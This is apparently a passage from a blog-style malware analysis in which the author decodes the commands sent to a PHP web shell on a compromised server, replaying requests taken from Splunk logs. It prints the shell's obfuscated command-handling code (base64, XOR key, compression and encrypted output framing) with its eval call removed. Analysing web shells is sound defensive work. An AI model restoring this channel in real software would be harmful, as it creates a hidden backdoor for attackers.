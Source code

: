 Now, all I had to do in order to figuring out what commands where executed was to print the string inside the `@eval` function without the need of understanding every line of the code :)

My modifications:

```php
    if (array_key_exists($i, $s)) {
        $s[$i] .= $p;
        $e = strpos($s[$i], $f);
        if ($e) {
            $k = $kh . $kf;
            ob_start();
            // @eval removed
            $command = @gzuncompress(
                @x(
                    @base64_decode(preg_replace(array("/_/", "/-/"), array("/", "+"), $ss($s[$i], 0, $e))),
                    $k
                )
            );
            if ($command) {
                print("command = " . $command . "\n");
            }
            $o = ob_get_contents();
            ob_end_clean();
            echo $o;
            $d = base64_encode(x(gzcompress($o), $k));
            print("<$k>$d</$k>");
            @session_destroy();
        }
    }
```

In order to run, change and debug the code I fired up PHP Docker container and used VSCode Remote - Containers extension for code editing and debugging inside the container.

Before I ran the code, I needed to replicate the behavior of the attacked server.
I had 2 options to achieve it:

1.  Send real traffic to my own server with the malicious PHP code.
2.  Using the list we got from Splunk.

I choose option 2 because it's much faster :)

I've copied the list from Splunk into txt file and read it using PHP:

```php
    function read_requests()
    {
        $requests = fopen("requests.txt", "r") or die("Unable to open file");
        $requests_data = fread($requests, filesize("requests.txt"));

        $requests_array = explode("\n", $requests_data);
        foreach ($requests_array as &$request) {
            $splitted = explode(" --> ", $request);
            $referrer = trim($splitted[0]);
            $accepted_lan = trim($splitted[1]);

            get_webshell_command($referrer, $accepted_lan);
        }

        fclose($requests);
    }
```

